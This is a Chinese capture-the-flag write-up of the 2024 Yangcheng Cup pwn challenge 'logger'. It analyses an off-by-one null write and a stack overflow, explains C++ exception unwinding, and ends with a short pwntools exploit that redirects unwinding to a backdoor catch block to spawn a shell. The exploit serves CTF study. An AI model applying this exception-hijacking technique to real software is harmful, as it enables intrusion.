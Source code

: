 ```yaml
---
title: 2024羊城杯logger
date: 2024-8-30
categories: c++异常机制
tags: 赛后诸葛亮
---
```

# 前言
当时比赛我没看这题，在搞一个`houseofapple2`的`orw`，由于利用比较麻烦，以及我太菜没搞过类似`io的orw`，导致浪费太久时间。
火箭这次比赛爆上分，提供`TravelGraph`的思路同时砍下`logger和html`，tql！！
# 功能介绍
[题目附件](pwn)
## main
![main](main.png)
main函数很明确，一个菜单，两个功能`trace和warn`，由于ida的问题反汇编并不能看到c++的try和catch，下面这张图是汇编代码看到的try和catch
![asm_main_try](asm_main_try.png)
看到warn函数是在try里面的
![asm_main_catch](asm_main_catch.png)
然后是main函数对于异常的处理，没什么特别的，就是printf了一下，然后又会回到主循环中。
## warn
![warn_try](warn_try.png)
可以看到在warn函数中有大的栈溢出，我们或许可以用这个栈溢出来劫持程序流。
问题在于程序也有检查，如果输入字节仅仅大于10就会抛出异常。(以及warn函数中并没有对于这个try的catch处理，所以这个异常会回溯到上一步，由main中的catch处理)
## trace
![trace](trace.png)
在全局变量段读入数据，每次10字节。
可以发现图中绿色的一行上有一个强制在输入的字符串后面加上`'\x00'`，如果刚好输入0x10个字节则会导致不规范的越界写入`'\x00'`。

遍历的方式是在i属于[0,8]的情况下，如果*(char*)buf[0x10*i] == 0，认为这个未被使用过，就拿来给我们读0x10个字节

我们可以通过在`'Buffer Overflow'`前的一次输入选择输入十个字节，让`'Buffer Overflow'`的第一个字节被覆盖为0，就可以覆盖`'Buffer Overflow'`的前0x10个字节内容，不清楚有什么用，暂且按下不表。
![trace_overflow](trace_overflow.png)
## c++异常机制
c++关于异常的三个关键词，try，catch，throw。
```c++
try {
    file.open("aaa.txt");
    // 可能出现错误的代码放在try里面
    if (!file.is_open()) { throw FileOpenException("Failed to open file");}
    // 如果出现异常，就throw，并交给对应的catch去处理
} catch (...) {
    // 捕获所有的异常
    std::cerr << "Unknown exception caught." << std::endl;
}
```
catch也可以和try不同时出现，比如某个函数的只有try，而将所有异常交给父函数处理
这一点之所以可以做到是因为c++异常处理会沿着调用链逐层回溯，直到找到catch对错误进行处理为止。(或者是找不到对应的catch，那就会导致程序异常终止)
```c++
void performTask() {
    try {
        riskyOperation(); // 调用可能会抛出异常的函数
    } catch (const std::exception& e) {
        // 捕获并处理来自 riskyOperation 的异常
    }
}

void riskyOperation() {
    try {
        throw std::runtime_error("An error occurred in riskyOperation");
    }
}
```
# 题目思路
由于c++的异常回溯会沿着函数调用链往回找，那我们刚好又可以通过栈溢出覆盖函数返回地址，从而影响函数调用链。
也就是说，我们可以让该异常处理机制误以为他是从另外的某个try块(成为tryA块)调用过来的，应该去tryA块去寻找对应的catch机制
好巧不巧，程序plt段有个system，跟进之后发现了作者留给我们的后门catch块
![backdoor_catch](backdoor_catch.png)
其中有调用system函数，而system函数的参数正好是指向`'Buffer Overflow'`的指针。

那就思路很清晰了，我们只需通过trace函数覆盖`'Buffer Overflow'`为`'/bin/sh'`，然后覆盖warn函数返回地址为上图最上方的try地址。

不过还有一点值得注意，异常处理既然回到了父函数，那么也会恢复父函数的rbp。而如果能控制rbp的话，肯定还可以有一些别的操作，比如伪造变量，比如通过leaveret二次跳转等等。
# exp
```python
def trace(tosend: bytes):
    io.sendlineafter(b'****************', b'1')
    io.sendafter(b'details', tosend)
    io.sendlineafter(b'check', b'n')

def warn(tosend: bytes):
    io.sendlineafter(b'****************', b'2')
    io.sendafter(b'message', tosend)

for _ in range(7):
    trace(b'skip')
trace(b'a'*0x10)
trace(b'/bin/sh'.ljust(0xf, b'\0'))
payload = b'0'*0x70 + p64(0x404500) + p64(0x401BC4)
warn(payload)
io.interactive()
```


